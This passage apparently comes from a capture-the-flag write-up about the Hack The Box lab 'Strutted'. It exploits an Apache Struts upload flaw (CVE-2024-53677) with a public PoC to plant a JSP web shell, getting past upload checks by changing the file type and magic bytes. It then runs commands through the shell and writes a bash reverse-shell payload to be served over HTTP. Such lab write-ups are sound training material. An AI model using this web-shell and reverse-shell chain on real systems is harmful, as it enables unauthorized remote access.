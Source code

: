 ![](gitbook/cybersecurity/images/Pasted%20image%2020250325122944.png)

We can find the PoC, let's check it out:

PoC: https://github.com/TAM-K592/CVE-2024-53677-S2-067

## EXPLOITATION

***

After checking the PoC, we can do the following, let's start the exploitation phase, for example, we can modify the `shell.jsp` file with these contents:

```
proxychains python3 S2-067.py -u http://strutted.htb --upload_endpoint /upload.action --files shell.jsp --destination ../../shell.jsp
```

Now, let's start our proxy and check the request:

![](gitbook/cybersecurity/images/Pasted%20image%2020250325124601.png)

On the reconnaissance, we were able to find the following source codes:

![](gitbook/cybersecurity/images/Pasted%20image%2020250325124709.png)

This means we need to modify the request in the following way:

![](gitbook/cybersecurity/images/Pasted%20image%2020250325124830.png)

Let's change the content type and the extension of the file, now, based on the code, we also need to change the magic bytes, let's do it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250325130106.png)

After changing this, we can see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250325130141.png)

Once we've uploaded it, we can access the file with and test a basic RCE:

```
http://strutted.htb/shell.jsp?action=cmd&cmd=id
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250325142213.png)

There we go, it worked, we can now send ourselves a shell, we need to do it in the following format:

```
echo -ne '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"' > shell.sh
```

Now, start a python server:

```
python3 -m http.server
```
